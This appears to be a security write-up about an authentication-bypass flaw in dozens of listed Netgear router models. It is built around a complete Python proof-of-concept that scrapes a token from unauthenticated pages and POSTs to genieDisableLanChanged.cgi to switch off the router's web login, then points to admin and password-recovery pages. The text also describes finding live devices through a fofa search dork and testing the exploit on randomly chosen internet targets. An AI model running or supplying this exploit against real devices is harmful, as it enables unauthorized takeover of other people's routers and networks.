






## 0x00 Summary

There is a large number of netgear devices with a genieDisableLanChanged.cgi page that can be accessed without authorization. After accessing this page, the device's authentication function will be turned off.
Some devices need to set the correct token and send a POST type request to trigger the vulnerability. 

like 

```
POST http://target/genieDisableLanChanged.cgi?id=Token
```


Token values can be fetched from certain pages that do not require authorization. But different models are different, so it is difficult to find a general solution. In this PoC, I try to grab a Token from three pages, which is suitable for most situations.

## 0x01 Tested Versions

AC1450, D8500, DC112A, JNDR3000, LG2200D, R4500, R6200, R6200V2, R6250, R6300, R6300v2, R6400, R6700, R6900P, R6900, R7000P, R7000, R7100LG, R7300, R7900, R8000, R8300, R8500, WGR614v10, WN2500RPv2, WNDR3400v2, WNDR3700v3, WNDR4000, WNDR4500, WNDR4500v2, WNR1000, WNR1000v3, WNR3500L, WNR3500L

## 0x02 PoC instructions

If you use PoC's closeauth function to turn off the device's web authentication, you must call PoC's openauth function to restore device authentication within a few minutes, otherwise the device's web service may crash.

If the PoC is invalid for a certain target, the possible reasons are:
（1）The target does not exist in the genieDisableLanChanged.cgi page, returning 404 (no vulnerability exists)
（2）The target's genieDisableLanChanged.cgi page requires authorization and returns 401 (no vulnerability exists)
（3）The page prompts that the timestamp expires and returns 200. (There is a vulnerability, the correct token is not fetched, and secondary development is required.)

## 0x03 PoC

```Python
#!/usr/bin/env python

import sys
import time
import os
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)


def scrape(text, start_trig, end_trig):
    if text.find(start_trig) != -1:
    	return text.split(start_trig, 1)[-1].split(end_trig, 1)[0]
    else:
        return "Token maybe unnecessary"


def get_token(url):
	token=0
	while token==0:
		req = requests.get(url, verify=False)
		token = scrape(req.text, 'unauth.cgi?id=', '\"')
		if token=="Token maybe unnecessary":
			#print url+'genie_ping.htm'
			req = requests.get(url+'genie_ping.htm', verify=False)
			token = scrape(req.text, 'genieping.cgi?id=', '\"')
			if token=="Token maybe unnecessary":
			#print url+'genie_ping.htm'
				req = requests.get(url+'LGO_logout.htm', verify=False)
				token = scrape(req.text, 'logout.cgi?id=', '\"')

	return token

def get_url(ip,port):
	url = 'http://' + ip + ':' + port + '/'
	try:
		req = requests.get(url)
	except:
		url = 'https://' + ip + ':' + port + '/'
	return url


def close_auth(token,url):

	if token == "Token maybe unnecessary":
		vurl = url + 'genieDisableLanChanged.cgi'
	else:
		vurl = url + 'genieDisableLanChanged.cgi?id=' + token

	req = requests.post(vurl, verify=False)
	time.sleep(1)
	req = requests.post(vurl, verify=False)

	print 'Authentication is disabled'
	print 'Try: '+url+'BAS_basic.htm'
	print 'Try: '+url+'MNU_accessPassword_recovered.htm'

def open_auth(token,url):

	if token == "Token maybe unnecessary":
		vurl = url + 'geniemanual.cgi'
	else:
		vurl = url + 'geniemanual.cgi?id=' + token

	req = requests.post(vurl, verify=False)
	time.sleep(1)
	req = requests.post(vurl, verify=False)

	print 'Authentication is enabled'
	print 'Try: '+url+'BAS_basic.htm'
	print 'Try: '+url+'MNU_accessPassword_recovered.htm'


if __name__ == '__main__':
	if len(sys.argv) != 4:
		print 'usage:'
		print '1.python router.py ip port openauth'
		print '2.python router.py ip port closeauth'
		os._exit(0)

	ip=sys.argv[1]
	port=sys.argv[2]
	func=sys.argv[3]

	

	if func=='openauth':
		url=get_url(ip, port)
		token=get_token(url)
		open_auth(token,url)
	elif func=='closeauth':
		url=get_url(ip, port)
		token=get_token(url)
		close_auth(token,url)
	else:
		print 'usage:'
		print '1.python router.py ip port openauth'
		print '2.python router.py ip port closeauth'
		os._exit(0)
```

## 0x04 Vulnerability test example

Use the fofa search engine to retrieve the target, such as using the following dork syntax to get the target of the specified version.
```
dork: app="NETGEAR-WNDR3400v2"
```

Next randomly select the target to use poc to test it. First, the access to the target directly needs to be authenticated. If the authentication is not authenticated, the corresponding page cannot be accessed.





Next use PoC to turn off authentication and access key pages.






Then use PoC to open the corresponding authorization and try to access the corresponding page again, and find that authorization is required to access.





## 0x05 Acknowledgement

Thanks to the partners who discovered the vulnerability together：

z3

